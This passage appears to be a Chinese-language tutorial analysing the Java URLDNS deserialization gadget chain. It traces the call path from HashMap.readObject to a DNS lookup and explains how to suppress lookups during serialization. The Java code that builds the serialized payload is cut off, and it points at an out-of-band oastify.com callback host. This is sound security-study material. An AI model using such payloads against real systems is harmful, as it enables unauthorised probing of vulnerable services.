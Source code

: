 ![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231105120012.png)

跟进handler的hashcode方法：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231105120652.png)

发现调用getHostAddress方法：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231105120757.png)

getByName根据主机名，获取其IP地址，也就是进行DNS查询：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231105132330.png)

简单验证一下：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231105135839.png)

所以，URLDNS的Gadget如下：

1. HashMap->readObject()
2. HashMap->hash()
3. URL->hachCode()
4. URLStramHandler->hashCode()
5. URLStramHandler->getHostAddress()
6. InetAddress->getByName()

测试：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231106134546.png)

但是发现序列化竟然会触发DNS请求：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231106134946.png)

调试一下，发现到URL的hashCode方法时，若hashCode值不为-1，则返回并且不执行handler的hashCode方法。

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231106141821.png)

有两种解决办法。

第一种，是ysoserial里面用的SilentURLStreamHandler类：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231106162255.png)

该类重写了getHostAddress，使其返回null，也就不会发送DNS请求。

第二种，是通过Java的反射机制，修改对象属性。

```java
package test;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class SerializeTest {
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{
        HashMap<URL,Integer> hashmap = new HashMap<URL,Integer>();
        URL url = new URL("http://izl1dgp84pd0cn1u61qj47332u8lwhk6.oastify.com");
```